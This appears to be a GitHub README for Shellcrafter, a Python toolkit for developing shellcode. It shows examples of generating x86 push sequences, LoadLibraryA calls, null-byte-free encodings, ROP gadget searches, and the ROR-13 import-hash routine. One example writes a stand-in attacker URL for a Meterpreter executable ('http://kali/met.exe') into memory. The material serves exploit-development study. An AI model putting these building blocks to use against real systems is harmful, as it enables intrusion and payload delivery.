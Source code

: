 # Shellcrafter

Shellcrafter is a package containing scripts for developing and generating shellcode.

It provides a collection of utilities for working with shellcode in various ways, such as generating shellcode from assembly instructions, computing hashes from function names, converting ASCII text to hex stack push instructions, loading DLLs, and finding ROP gadgets.

## Installation

To install Shellcrafter, use pip:

```bash
$ pip3 install shellcrafter
```

Or clone this repository and run:

```bash
$ pip3 install .
```


## Usage

Shellcrafter provides the following command-line utilities:

- `keyst-api`: A shellcode generator using the Keystone Engine to assemble assembly instructions into shellcode.
- `shellcode-procedure-generator`: A versatile tool for generating assembly instructions for various purposes. It can generate push instructions for ASCII strings, instructions for loading a DLL, write ASCII strings to memory, and compute a hash of an input string using an algorithm similar to the one used in assembly for importing a function by its hash. It also provides an option to avoid NULL bytes in the generated shellcode.
- `find-gadgets`: Searches for clean, categorized gadgets from a given list of files.

To get help on how to use each utility, run the corresponding command with the `-h` or `--help` flag:

```bash
$ keyst-api --help
$ shellcode-procedure-generator --help
$ find-gadgets --help
```

## Examples

Here are some examples of how to use the shellcode-procedure-generator tool:

To generate push instructions for an ASCII string:

```bash
$ shellcode-procedure-generator --push-for-ascii --ascii-string shell32.dll
push_str:  ;# push the 'shell32.dll' onto the stack
  push 0x006c6c64 ;# Push the part "lld." of the string "shell32.dll" onto the stack
  push 0x2e32336c ;# Push the part "23ll" of the string "shell32.dll" onto the stack
  push 0x6c656873 ;# Push the part "ehs" of the string "shell32.dll" onto the stack

```

To generate push instructions for an ASCII string and escape the NULL bytes by using the negate approach:

```bash
$ shellcode-procedure-generator --push-for-ascii --ascii-string shell32.dll --null-free
push_str:  ;# push the 'shell32.dll' onto the stack
  mov eax, 0xff93939c ;# Move the negated value of the part "lld." of the string "shell32.dll" to EAX to avoid NULL bytes
  neg eax ;# Negate EAX to get the original value
  push eax ;# Push EAX onto the stack
  push 0x2e32336c ;# Push the part "23ll" of the string "shell32.dll" onto the stack
  push 0x6c656873 ;# Push the part "ehs" of the string "shell32.dll" onto the stack

```

To generate instructions for loading a DLL:

```bash
$ shellcode-procedure-generator --load-library --load-library-addr "[ebp+0x10]" --load-library-dll-name shell32.dll
load_lib:  ;# load the shell32.dll DLL
  xor eax, eax ;# NULL EAX
  push 0x006c6c64 ;# Push the part "lld." of the string "shell32.dll" onto the stack
  push 0x2e32336c ;# Push the part "23ll" of the string "shell32.dll" onto the stack
  push 0x6c656873 ;# Push the part "ehs" of the string "shell32.dll" onto the stack
  push esp ;# Push ESP to have a pointer to the string that is currently located on the stack
  call dword ptr [ebp+0x10] ;# Call LoadLibraryA

```

To do the same, but escape the NULL byte:

```bash
$ shellcode-procedure-generator --load-library --load-library-addr "[ebp+0x10]" --load-library-dll-name shell32.dll --null-free
load_lib:  ;# load the shell32.dll DLL
  xor eax, eax ;# NULL EAX
  mov eax, 0xff93939c ;# Move the negated value of the part "lld." of the string "shell32.dll" to EAX to avoid NULL bytes
  neg eax ;# Negate EAX to get the original value
  push eax ;# Push EAX onto the stack
  push 0x2e32336c ;# Push the part "23ll" of the string "shell32.dll" onto the stack
  push 0x6c656873 ;# Push the part "ehs" of the string "shell32.dll" onto the stack
  push esp ;# Push ESP to have a pointer to the string that is currently located on the stack
  call dword ptr [ebp+0x10] ;# Call LoadLibraryA
```

To generate instructions for writing an ASCII string to memory:

```bash
$ shellcode-procedure-generator --write --ascii-string "http://kali/met.exe" --write-addr "[ebp-0x50]" 
write_str: ;# write http://kali/met.exe to [ebp-0x50]
  xor eax, eax  ;# NULL EAX
  xor ecx, ecx  ;# NULL ECX
  lea eax, [ebp-0x50] ;# Load the address to write to into EAX
  mov ecx, 0x70747468 ;# Move the part "http" of the string "http://kali/met.exe" to ECX
  mov [eax], ecx ;# Write the part "http" of the string "http://kali/met.exe" to memory
  mov ecx, 0x6b2f2f3a ;# Move the part "://k" of the string "http://kali/met.exe" to ECX
  mov [eax+0x04], ecx ;# Write the part "://k" of the string "http://kali/met.exe" to memory
  mov ecx, 0x2f696c61 ;# Move the part "ali/" of the string "http://kali/met.exe" to ECX
  mov [eax+0x08], ecx ;# Write the part "ali/" of the string "http://kali/met.exe" to memory
  mov ecx, 0x2e74656d ;# Move the part "met." of the string "http://kali/met.exe" to ECX
  mov [eax+0x0c], ecx ;# Write the part "met." of the string "http://kali/met.exe" to memory
  mov ecx, 0x00657865 ;# Move the part "exe" of the string "http://kali/met.exe" to ECX
  mov [eax+0x10], ecx ;# Write the part "exe" of the string "http://kali/met.exe" to memory
```

To do the same, but escape the NULL byte:

```bash
$ shellcode-procedure-generator --write --ascii-string "http://kali/met.exe" --write-addr "[ebp-0x50]"  --null-free
write_str: ;# write http://kali/met.exe to [ebp-0x50]
  xor eax, eax  ;# NULL EAX
  xor ecx, ecx  ;# NULL ECX
  lea eax, [ebp-0x50] ;# Load the address to write to into EAX
  mov ecx, 0x70747468 ;# Move the part "http" of the string "http://kali/met.exe" to ECX
  mov [eax], ecx ;# Write the part "http" of the string "http://kali/met.exe" to memory
  mov ecx, 0x6b2f2f3a ;# Move the part "://k" of the string "http://kali/met.exe" to ECX
  mov [eax+0x04], ecx ;# Write the part "://k" of the string "http://kali/met.exe" to memory
  mov ecx, 0x2f696c61 ;# Move the part "ali/" of the string "http://kali/met.exe" to ECX
  mov [eax+0x08], ecx ;# Write the part "ali/" of the string "http://kali/met.exe" to memory
  mov ecx, 0x2e74656d ;# Move the part "met." of the string "http://kali/met.exe" to ECX
  mov [eax+0x0c], ecx ;# Write the part "met." of the string "http://kali/met.exe" to memory
  mov ecx, 0xff9a879b ;# Move the negated value of the part "exe" of the string "http://kali/met.exe" to ECX to avoid NULL bytes
  neg ecx ;# Negate ECX to get the original value
  mov [eax+0x10], ecx ;# Write the part "exe" of the string "http://kali/met.exe" to memory
```

Calculate a hash of the given input string:

```bash
$ shellcode-procedure-generator --hash LoadLibraryA
Hash: 0xec0e4e8e
```

Print out the hashing algorithm used to generate the hash value:

```bash
$ shellcode-procedure-generator --hash-alg                                                                                     

compute_hash:
  xor eax, eax                 ;# NULL EAX
  cdq                          ;# NULL EDX
  cld                          ;# clear direction (clears the direction flag DF in the EFLAGS register)

compute_hash_again:
  lodsb                        ;# load the next byte from ESI into AL
  test al, al                  ;# check if AL contains the NULL terminator
  jz compute_hash_finished     ;# if the ZF is set, we've hit the NULL terminator
  ror edx, 0x0d                ;# rotate EDX 13 bits to the right
  add edx, eax                 ;# add the new hashed byte to the accumulator
  jmp compute_hash_again       ;# next iteration

compute_hash_finished:
```